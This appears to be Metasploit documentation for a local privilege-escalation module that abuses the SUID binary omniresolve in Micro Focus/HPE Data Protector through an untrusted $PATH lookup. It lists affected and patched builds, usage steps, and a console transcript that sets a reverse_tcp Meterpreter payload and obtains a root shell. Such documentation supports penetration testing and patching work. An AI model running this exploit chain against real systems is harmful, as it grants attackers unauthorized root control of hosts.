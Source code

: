 ## Description

  This module exploits the trusted `$PATH` environment
  variable of the SUID binary `omniresolve` in
  Micro Focus (HPE) Data Protector A.10.40 and prior.

  The `omniresolve` executable calls the `oracleasm` binary using
  a relative path and the trusted `$PATH`, which allows an attacker
  to execute a custom binary with `root` privileges.


## Vulnerable Application

  This module has been successfully tested on:

  * HPE Data Protector A.09.07: OMNIRESOLVE, internal build 110
  * Micro Focus Data Protector A.10.40: OMNIRESOLVE, internal build 118 on CentOS Linux release 7.6.1810 (Core)

  The vulnerability has been patched in:
  * Micro Focus Data Protector A.10.40: OMNIRESOLVE, internal build 125


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/omniresolve_suid_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### SUID_PATH

  Path to `omniresolve` executable (default: `/opt/omni/lbin/omniresolve`)

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenario

### DP 10.40 build 118 on CentOS Linux release 7.6.1810 (Core)

  ```
  msf > use exploit/linux/local/omniresolve_suid_priv_esc
  msf exploit(linux/local/omniresolve_suid_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/omniresolve_suid_priv_esc) > check
  [+] The target is vulnerable.
  msf exploit(linux/local/omniresolve_suid_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp 
  payload => linux/x64/meterpreter/reverse_tcp
  msf exploit(linux/local/komniresolve_suid_priv_esc) > set lhost 192.168.0.113
  lhost => 192.168.0.113
  msf exploit(linux/local/omniresolve_suid_priv_esc) > run
  
  [*] Started reverse TCP handler on 192.168.0.113:4444 
  [*] Sending stage (3021284 bytes) to 192.168.0.107
  [*] Meterpreter session 2 opened (192.168.0.113:4444 -> 192.168.0.107:54510) at 2019-10-01 13:19:45 -0400
  [+] Deleted /tmp/oracleasm
  [+] Deleted /tmp/gprjmiMGOr
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 192.168.0.107
  OS           : CentOS 7.6.1810 (Linux 3.10.0-957.21.2.el7.x86_64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

